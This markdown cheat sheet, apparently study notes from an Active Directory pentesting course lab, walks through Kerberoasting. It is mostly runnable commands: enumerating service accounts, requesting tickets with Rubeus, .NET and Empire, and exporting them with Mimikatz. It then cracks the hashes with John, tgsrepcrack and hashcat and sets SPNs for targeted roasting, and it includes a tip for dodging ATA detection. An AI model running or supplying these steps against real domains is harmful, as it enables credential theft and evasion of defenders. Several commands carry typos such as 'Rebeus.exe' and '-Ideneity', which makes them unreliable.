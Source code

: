 # Domain Privilege Escalation - Kerberoast

- [Domain Privilege Escalation - Kerberoast](#domain-privilege-escalation---kerberoast)
  - [Kerberoast](#kerberoast)
  - [Rubeus.exe](#rubeusexe)
  - [.NET classes](#net-classes)
  - [Empire](#empire)
  - [Password Cracking - John the Ripper](#password-cracking---john-the-ripper)
  - [Password Cracking - tgsrepcrack](#password-cracking---tgsrepcrack)
  - [Password Cracking - Hashcat](#password-cracking---hashcat)
  - [Targeted Kerberoasting - Set SPN](#targeted-kerberoasting---set-spn)

---

## Kerberoast

![picture 1](images/ec9e6f5754270d77dae65520c15e1aae8d3224b231266bce45a1cde0325cb268.png)  


The main goal of **Kerberoast** is to __offline brute force service account passwords__.

The **Ticket-Granting Service (TGS)** has a server portion which is *encrypted with the password hash of the service account*. This makes it possible to request a ticket and do offline brute-force.

Since (non-machine) service account passwords are not frequently changed, this has become a very popular attack!

In the detection perspective, only Event ID 4769 will be logged on DC.

<br/>

To find user accounts used as Service Accounts:

- PowerView

```
Get-DomainUser -SPN
```

- AD Module

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

<br/>

---

## Rubeus.exe

To perform Kerberoast, we can make use of **Rubeus.exe**.

- https://github.com/GhostPack/Rubeus
- Compliied: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

<br/>

Note:
When you use Rebeus, always launch a new command prompt.

<br/>

List Kerberoast stat:

```
Rubeus.exe kerberoast /stats
```

<br/>

Request a TGS:

```
Rebeus.exe kerberoast /user:<serviceaccount> /simple
```

<br/>

To avoid detections based on Encryption Downgrade of Kerberos EType (used by likes of ATA - `0x17` = `rc4-hmac`), look for Kerberoastable accounts that only support `RC4_HMAC`.

```
Rebeus.exe kerberoast /stats /rc4opsec
```

```
Rebeus.exe kerberoast /user:<serviceaccount> /simple /rc4opsec
```

<br/>

Kerberoast all possible accounts:

```
Rebeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

<br/>

---

## .NET classes

Alternatively, we can request tickets using .NET classes:

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberoasRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```

<br/>

---

## Empire

Also you may use `Invoke-Kerberoast` from BC Empire (https://github.com/BC-SECURITY/Empire) for cracking with John or Hashcat:

```
. .\Invoke-Kerberoast.ps1

Invoke-Kerberoast -Ideneity <serviceaccount>
```

```
Invoke-Kerberoast -Identity <serviceaccount> -OutputFormat Hashcat | Select-Object Hash | Out-File -FilePath .\hashcat.txt -Width 8000
```

<br/>

---

## Password Cracking - John the Ripper

Crack ticket using JtR:

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

<br/>

---

## Password Cracking - tgsrepcrack

To check if the ticket has been granted:

```
klist
```

<br/>

Export all tickets using Mimikatz:

```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

<br/>

Crack the Service Account password:

```
python.exe .\tgsrepcrack.py .\10k-worst-passwords.txt <kirbi_tgs_ticket>
```

---

## Password Cracking - Hashcat

Crack the password using hashcat.exe:

```
hashcat.exe -m 13100 -a 0 .\ToBeCracked\hashes.txt .\wordlists\10k-worst-pass.txt
```

<br/>

---

## Targeted Kerberoasting - Set SPN

If we have sufficient rights (`GenericAll` / `GenericWrite`), a target user's SPN can be set to anything (unique to the domain). We can then request a TGS without special privilege. The TGS can then be "Kerberoasted".

<br/>

Remember the permissions we enumerated for our current user **studentuserx**:

- PowerView

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentuser"}
```

<br/>

Then check if the user has SPN set:

- PowerView

```
Get-DomainUser -Identity support64user | Select ServicePrincipalName
```

- AD Module

```
Get-ADUser -Identity Support64User -Properties ServicePrincipalName | Select ServicePrincipalName
```

<br/>

Set SPN for the user. The SPN has to be unique in the domain.

- PowerView

```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'}
```

- AD Module

```
Set-ADUser -Identity support64user -ServicePrincipalNames @{Add='us/myspn64'}
```

<br/>

Kerberoast the user finally:

```
Rubeus.exe kerberoast /outfile:kerberoast-hashes.txt
```

```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\kerberoast-hashes.txt
```

<br/>

